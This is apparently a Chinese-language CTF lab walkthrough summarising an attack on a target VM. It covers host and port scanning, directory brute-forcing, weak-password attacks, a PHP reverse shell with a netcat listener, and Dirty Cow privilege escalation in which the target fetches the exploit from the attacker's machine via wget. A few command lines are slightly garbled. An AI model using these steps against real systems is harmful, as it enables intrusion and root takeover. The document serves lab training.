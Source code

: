 #### 登录靶机服务器

账号：firefart 密码：123456

![image-20230524175252769](CTF靶场渗透image/image-20230524175252769.png) 

## 思路总结

### 进攻过程

- 信息收集：主机发现、扫描和识别端口服务，找到22、80、3306等服务

  - ```
    // 使用命令
    arp-scan -l // 主机发现
    nmap -sS -sS -p- -v -T4 192.168.128.135 // 端口扫描
    ```

- 敏感目录扫描：找到敏感后台路径

  - ```
    dirb http；//192.168.128.135 // 目录遍历
    ```

- 使用brup进行弱口令爆破，登录数据库后台，发现/修改网站后台账号密码

- 利用网站账号登录网站后台是实现挂马

  - ```
    cat /usr/share/webshells/php/php-reverse-shell.php //生成kali自带shell
    nc -nlvp prot //监听端口，prot木马端口例如：4444
    ```

- 使用Dirty Cow漏洞提权，获取管理员账号实现root权限

  - ```
    攻击机
    gcc -pthread dirty.c -o dirty -lcrypt //编译
    xxxxxxxxxx1 1chmod +x dirty
    python3 -m http.server 80 //假设web服务
    靶机
    cd /tmp
    wget http://192.168.128.129/dirty  //获取攻击机上的dirty
    ./dirty new_passwd //任意新密码
    ```
